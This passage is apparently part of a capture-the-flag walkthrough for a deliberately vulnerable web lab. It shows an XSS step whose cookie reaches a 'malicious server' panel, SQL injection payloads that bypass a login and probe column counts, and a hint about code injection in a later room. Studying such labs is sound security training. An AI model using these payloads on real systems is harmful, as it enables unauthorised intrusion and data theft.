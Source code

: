   Then, access the Admin Panel to execute this HTTP request. Go to the Malicious Server panel to view the request made by the Admin Panel.
  ```
  Host: 0.0.0.0:5000 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0 Accept: */* Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate Referer: http://0.0.0.0:5000/room-4-admin Content-Type: text/plain;charset=UTF-8 Origin: http://0.0.0.0:5000 Content-Length: 25 Connection: keep-alive Cookie: room_4_cookie=doNotDelete

  room_4_cookie=doNotDelete

  0x4067{WWW_YOU_GOT_XSSED} The path to room five is /2a30d440ee2e6c26d703a956e78d1b5fdb70ec9d6ae5dd0fb363d0097b6018dc
  ```
- What kind of SQL injection is being demonstrated in Room 5?
  
  ```
  Blind SQL Injection
  ``` 
  The SQL queries we inject does not extract any data from the database, rather, the outcomes (like being able to login or not), indicate if the SQL query was successful or not.

- What is the username used for the login form?
  
  The username is hidden in the source code
  ```
  room5
  ```

  You can make use of this information to try out a common SQL injection payload in the username field.  
  Since we do not know what the password is, this payload effectively comments out the password checks in the underlying SQL query. 
  ```
  room5"; --
  ```

  Them, the button for Room 6 will appear, but it only redirects back to the same page.
  
- How many columns are there in the table used?
  
  We can indirectly find out the number of columns in the database using  
  ```
  room5" UNION SELECT 1; --
  ```

  Nothing significant happens with this query, so just keep playing around with the number of columns selected and you will eventually find that there are 4 columns in the table
  ```
  room5" UNION SELECT 1,2,3,4; --
  ```

  Such techniques indirectly reveals information about the database.

  The correct button to Room 6 will now appear
  
- What vulnerability is present in Room 6?
  ```
  Code injection
  ```
  Aside from the clue 'echo' in the response, you will just have to experiment with possible payloads to find out this vulnerability...
